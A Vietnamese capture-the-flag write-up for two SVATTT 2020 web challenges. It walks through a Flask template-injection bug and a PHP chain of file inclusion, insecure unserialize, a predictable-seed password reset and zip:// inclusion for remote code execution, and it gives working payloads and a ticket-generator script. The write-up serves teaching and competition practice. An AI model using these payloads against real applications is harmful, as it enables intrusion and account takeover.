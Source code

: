 ```yaml
---
layout: post
comments: true
title: SVATTT (ASCIS) 2020
categories: ['2020']
---
```


1) Source cho ai cần (chỉ những file cần thiết để dựng lại bài, không có front-end hay các file dư ra):

- [Among Us](https://github.com/matuhn/matuhn.github.io/blob/master/_posts/SVATTT2020/svattt_web1.zip)

- [TSULOTT3](https://github.com/matuhn/matuhn.github.io/blob/master/_posts/SVATTT2020/svattt_web2.zip)

2) Note lại cách giải 2 bài trên (mọi người có thể kéo xuống dưới cùng để xem Payload:

## TSULOTT 3

Bài này được code bằng Flask, phần code bị lỗi SSTI là đoạn dưới đây
 
```Python
return render_template_string(cheat+check_session("name"))
```
 
 Vì vậy chỉ cần cho name = Payload, sau đó trigger để app.py gọi đoạn đó render_template_string ra là RCE được
 
## Among Us

Bài này được code bằng PHP, và theo từng bước sau đây để có thể RCE được:
- LFI ở index.php để có thể lấy được source cả bài về debug ở máy local

```PHP
include($_GET['page'] . ".php")
```

- Forgot Password 

```PHP
$ticket = unserialize(base64_decode($_POST["ticket"]));
```

Ticket nhận giá trị từ người dùng, nên ta có thể dễ dàng điều khiển được các tham số của ticket dựa trên các loại dữ liệu của 1 Object PHP



- Check_user_exist

```PHP
$count = check_user_exists($conn, $username);
```

Để có thể forgot password 1 user bất kì thì ta phải có 1 user hợp lệ trong database, cái này tác giả đã cung cấp ở crew.php, nếu bạn debug ở local thì có thể tạo 1 vài user trong db như user1, user2 cũng được

- Check_length

```PHP
return strlen($input)==$length || count($input)==$length || sizeof($input)==$length;
```

secret_number nhận từ người dùng có thể là 1 giá trị có len = 9 hay 1 array có len = 9 cũng được, chỗ này nhờ PHP Object thì mình có thể đưa array vào

- Reset password

```PHP
if(check_length($secret_number, 9)) {
					$secret_number = strtoupper($secret_number);
					$secret_number = check_string($secret_number);
					$secret = get_secret($conn,$username);
					var_dump($secret_number);
					var_dump($secret);

					if($secret_number !== $secret) {
						print("Wrong secret!");
					}
					else
					{
					print("OK, we will send you the new password");}
					print $secret_number;
					$random_rand = rand(0,$secret_number);
					srand($random_rand);
					$new_password = "";
					while(strlen($new_password) < 30) {
						$new_password .= strval(rand());
					}
					reset_password($conn, $username, $new_password);
					//to do: send mail the new password to the user, code later
					//print($new_password);
				}
```

Có thể để ý ở đây là lỗi typo, dù secret_number có đúng hay không thì password vẫn reset (vì nằm bên ngoài if). Nhưng nếu không tìm được 1 cách để control được secret_number thì không thể có được password để đăng nhập sau khi reset
Để control được new_password thì phải control được rand(). Theo thứ tự việc cần làm thì:

new_password <= rand <= srand <= rand

Và để controll được $random_rand thì $secret_number phải bằng NULL vì rand(0,NULL) = 0 :?

$secret_number = NULL chỉ khi $secret_number là array, sau khi đưa qua strtoupper sẽ trở thành NULL value

```Debug
php > var_dump(strtoupper(array("ingame","lmht","buixuanhuan")));
PHP Warning:  strtoupper() expects parameter 1 to be string, array given in php shell code on line 1

Warning: strtoupper() expects parameter 1 to be string, array given in php shell code on line 1
NULL
```

- Upload, Download zip

Reset password thành công thì khi vào electrical.php sẽ có chức năng upload zip và download file đó về 

```PHP
function upload($file) {
	if(isset($file))
	{
		if($file["size"] > 1485760) {
			die('<center>IMPOSTOR ALERT!!!</center>');
		}	
		$uploadfile=$file["tmp_name"]; // .zip
		$folder="crew_upload/";
		$file_name=$file["name"]; // no .zip
		$new = $file["tmp_name"].$file_name;
		echo $new;
		move_uploaded_file($file["tmp_name"], $new);
		//echo $new;
		//echo $file["tmp_name"];
		$zip = new ZipArchive(); 
		$zip_name ="crew_upload/".md5(uniqid(rand(), true)).".zip"; // Zip name
		if($zip->open($zip_name, ZIPARCHIVE::CREATE)!==TRUE)
		{ 
		 	echo "Sorry ZIP creation failed at this time";
		}
		$zip->addFile($new);
		$zip->close();
		if(isset($_SESSION["link"]) && !empty($_SESSION["link"])) {
			unlink($_SESSION["link"]);
			unset($_SESSION["link"]);
		}
		$_SESSION["link"] = $zip_name;
		#header("Refresh: 0");
	}
}
```

Luồng hoạt động của function Upload như sau 

nhận file upload (test.zip) => rename file thành (tmpxyztest.ziptmpxyztest) => tạo file zip có tên file random => move file zip upload bởi người dùng vào file zip vừa tạo

Ta có 1 file: test.zip (chứa test.php), sau khi upload lên sẽ được download về 1 file zip chứa 1 file zip khác trong đó và bên trong file zip đó sẽ chứa file php ban đầu

Ta không cần quan tâm tới cái luồng upload này, vì sau khi PHP nhận file upload từ người dùng, sẽ lưu lại 1 bản temp trong /tmp. Kết hợp với LFI có thể dùng protocol zip:// có thể gọi thẳng đến file PHP ban đầu => RCE

# Payload

## TSULOTT3

```Python
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```

## AmongUs

Gen Password 

```PHP
<?php 


class CrewMate{
	public $name = "tsu";
	public $secret_number = array("111111111","111111111","111111111","111111111","111111111","111111111","111111111","111111111","111111111");
	// password= 117856802212731241191535857466
}


$ticket = new CrewMate();
echo base64_encode(serialize($ticket));

echo "</br>";

echo var_dump(serialize($ticket))
#
?>
```

RCE Protocol ZIP

```
zip:///tmp/php(random_thing)test.zip%23test
```
